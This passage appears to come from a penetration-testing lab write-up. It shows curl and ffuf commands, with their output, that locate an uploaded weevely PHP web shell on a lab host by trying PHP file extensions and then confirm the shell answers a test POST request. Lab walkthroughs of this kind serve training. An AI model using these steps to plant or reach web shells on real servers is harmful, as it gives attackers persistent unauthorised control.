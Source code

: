 This allows the attacker to maintain persistent, interactive control over the server through HTTP requests.

`curl -I -s http://192.168.56.121/weevely.php | head -n 1`:
```
HTTP/1.1 404 Not Found ←
```

`vim ./php_extensions.list`:
```
php
php3
php4
php5
php7
php8
phtml
phar
pht
```

`ffuf -u http://192.168.56.121/weevely.EXT -w ./php_extensions.list:EXT`:
```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.121/weevely.EXT ←
 :: Wordlist         : EXT: /home/kali/php_extensions.list
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

php7                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 15ms] ←
:: Progress: [9/9] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

`curl -I -s http://192.168.56.121/weevely.php7 | head -n 1`:
```
HTTP/1.1 200 OK ←
```

`curl -X POST http://192.168.56.121/weevely.php7 -d 'b6e7a529b6c2{TEST}d598a771749b'`:
```
afnqDsRcBpVmU71yb6e7a529b6c2S/hnZjBkNWI=d598a771749b
```

